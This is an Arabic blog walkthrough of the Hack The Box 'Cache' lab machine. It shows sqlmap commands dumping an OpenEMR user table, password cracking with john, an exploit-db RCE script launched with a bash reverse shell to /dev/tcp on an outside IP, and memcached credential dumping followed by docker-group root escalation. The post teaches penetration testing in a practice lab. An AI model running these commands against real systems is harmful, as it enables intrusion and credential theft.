 ```yaml
---
title: hackthebox cache walkthrough(arabic)
author: fasto
date: 2020-10-10 20:55:00 +0800
categories: [Blogging, Tutorial]
tags: [getting started]
pin: true
---
```


<h1>Summary</h1>
<br>
السلام عليكم 
<br>
 hachthebox ساقوم بمشاركة مقال صغير يتحدث على هذا التحدي السيرفير متاح عبر منصة
 <br> هي منصة مختصة باختبار الاختراق في البداية نقوم ببعض الفحص المبدئي نجد كلمة سر واسم مستخدم بالاضافة الى دومين نايم مصاب 
<br> بصلاحية اباشي shell نستغلهما للحصول على sql injection و rce  بثغرتين 
<br>
 privilege escalation اما في مايخص 
 <br>
نكتشف ان اليوزر ينتمي الى مجموعة دوكر نستطيع بذلك الحصول على صلاحيات الروت بكل سهولة     
<h2>Walkthrough</h2>
<h4>Reconnaissance</h4>
    nmap نبدا بفحص البورتات باستخدام

```
$ nmap -A 10.10.10.188
Starting Nmap 7.60 ( https://nmap.org ) at 2020-08-21 09:17 CET
Nmap scan report for cache.htb (10.10.10.188)
Host is up (0.33s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 a9:2d:b2:a0:c4:57:e7:7c:35:2d:45:4d:db:80:8c:f1 (RSA)
|   256 bc:e4:16:3d:2a:59:a1:3a:6a:09:28:dd:36:10:38:08 (ECDSA)
|_  256 57:d5:47:ee:07:ca:3a:c0:fd:9b:a8:7f:6b:4c:9d:7c (EdDSA)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))                                                                                                      
|_http-server-header: Apache/2.4.29 (Ubuntu)                                                                                                             
|_http-title: Cache                                                                                                                                      
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 45.04 seconds
```
نلاحظ وجود 2 بورت
<br>
80 : الخاص بالويب سيرفر
<br>
22: الخاص ب ssh
<br>
لنبدا مع 80                                                                                                                                  
![Desktop View](/img/00.png)
 
sqli عند تصفح السيرفر نجد هناك مربع تسجيل الدخول نجرب 
<br>
 
لكن لا جدوى الموقع ليس مصاب 
<br>
![Desktop View](/img/0.png)


<h4>Enumeration</h4>

نشغل dirb
<br>
بالامر التالي

![Desktop View](/img/1.png)
  javascript نلاحظ وجود 2 مجلدات  
و
<br>
jquery
<br>
عند فتح المجلد الثاني نجد هناك ملف بداخله  كلمة سر و كلمة مستخدم لنحتفظ به ونستمر بالبحث 
<br>password : H@v3_fun
<br>username : ash

![Desktop View](/img/2.png)


<h5>Subdomain Enumeration FUFF</h5>
نبحث عن دومين باستخدام
<br>
ffuf

![Desktop View](/img/3.png)
<br>
 hms وجدنا دومين اسمه

نضع الدومين في ملف 
<br>
/etc/hosts
<br>
```
10.10.10.188    hms.htb
```
نتصفح الدومين الجديد 
![Desktop View](/img/4.png)
 بعد البحث في جوجل نجد ان التطبيق الشغال في هذا الدومين مصاب بثغرة الحقن
<br></br>
وجدنا هذا الفيديو على يوتيوب يشرح هذه الثغرة
<br>
https://www.youtube.com/watch?v=DJSQ8Pk_7hc
<br>
نتبع الخطوات كما هو موضح في الفيديو
<br>
burp نلتقط الريكوست باستخدام برنامج 
![Desktop View](/img/5.png)

نقوم بحفظ الريكوست في ملف 
![Desktop View](/img/6.png)
<br>
sqlmap ثم نقوم بالحقن باستخدام 
<br>
```sqlmap -r om.req  --dbs```
<br>om.req ---> الريكوست السابقة
<br>
\--dbs  ---> عرض قواعد البيانات

![Desktop View](/img/7.png)
<br>
وجدنا اسم قاعدة البيانات
![Desktop View](/img/8.png)
<br>
لنستخرج الجداول الان
``` sqlmap -r login.req -D openemr --table ```
<br>
<br>-D      ---> اسم قاعدة البيانات
<br>--table ---> استخراج الجداول
<br>  
الان استخرجنا كل الجداول الان نسحب كلمة السر واليوزر المتواجد في الجدول
<br>
users_secure
<br>
``` sqlmap -r login.req -D openemr -T users_secure --dump ```

![Desktop View](/img/10.png)

![Desktop View](/img/11.png)
وجدنا كلمة سر مشفرة
<br>
john نفك تشفيرها باستخدام برنامج
  <br>
```
$ john /tmp/hash -wordlist=rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 32 for all loaded hashes
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
xxxxxx           (?)
1g 0:00:00:00 DONE (2020-08-21 16:12) 3.333g/s 2880p/s 2880c/s 2880C/s caitlin..felipe
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```
<br>
xxxxxx حصلنا على كلمة سر 
 
<br>
نجد انها صحيحةopenemr عند تجريبها في    
 
<br>   rce من البحث السابق وجدنا ايضا ان البرنامج مصاب بثغرة
ووجدنا ايضا سكريبت الاستغلال
نحمله من هنا
</br>https://www.exploit-db.com/exploits/45161

![Desktop View](/img/13.png)
<br>
```python 45161.py http://hms.htb/ -u openemr_admin -p xxxxxx -c 'bash -i >& /dev/tcp/10.10.14.212/1338 0>&1'```
<br>
 الخاص بك ip ضع  
10.10.14.212  :مكان

<br> الان دخلنا الى السيرفر
لكن بصلاحيات اباشي
<h4>Privilege Escalation</h4>

باستخدام الامر التالي نلاحظ ان البورت 11211 مفتوح
<br>
```netstat -plant```
<br>
  memcached هذا البورت خاص ب 
![Desktop View](/img/14.png)


```netstat -plant```
<br>لنقم بسحب البيانات
<br>  telnet عبر memcached نتصل ب   
```telnet localhost 11211```
<br>  STAT command نكتب الامر التالي  
```STAT items:1:number 5
STAT items:1:number_hot 0
STAT items:1:number_warm 0
STAT items:1:number_cold 5
STAT items:1:age_hot 0
STAT items:1:age_warm 0
STAT items:1:age 30
STAT items:1:evicted 0
STAT items:1:evicted_nonzero 0
STAT items:1:evicted_time 0
STAT items:1:outofmemory 0
STAT items:1:tailrepairs 0
STAT items:1:reclaimed 0
STAT items:1:expired_unfetched 0
STAT items:1:evicted_unfetched 0
STAT items:1:evicted_active 0
STAT items:1:crawler_reclaimed 0
STAT items:1:crawler_items_checked 140
STAT items:1:lrutail_reflocked 0
STAT items:1:moves_to_cold 3205
STAT items:1:moves_to_warm 0
STAT items:1:moves_within_lru 0
STAT items:1:direct_reclaims 0
STAT items:1:hits_to_hot 0
STAT items:1:hits_to_warm 0
STAT items:1:hits_to_cold 0
STAT items:1:hits_to_temp 0
END
```
ثم
stats cachedump 1 0

```
stats cachedump 1 0

ITEM link [21 b; 0 s]
ITEM user [5 b; 0 s]
ITEM passwd [9 b; 0 s]
ITEM file [7 b; 0 s]
ITEM account [9 b; 0 s]                                                                                                                                  
END   
```
حصلنا على اليوزر
```
get user                                                                                                                                       
VALUE user 0 5
luffy
END
```
حصلنا على كلمة السر
```
get passwd
VALUE passwd 0 9
0n3_p1ec3
END
```
<br>![Desktop View](/img/15.png)

<br>
 ssh حصلنا على اليوزر و كلمة السر لنجرب الاتصال عبر 
<br>
<br>

  doker ينتمي الى المجموعة  luffy نكتشف ان اليوزر
 

<br>
gtgobins  نذهب الى موقع
```https://gtfobins.github.io/gtfobins/docker/
```
 
  
<br>![Desktop View](/img/16.png)
```
luffy@cache:~$ docker images
 REPOSITORY TAG IMAGE ID CREATED SIZE
 ubuntu latest 2ca708c1c9cc 7 months ago 64.2MB
 ```
 
<br>![Desktop View](/img/17.png)
حصلنا على صلاحيات رووت
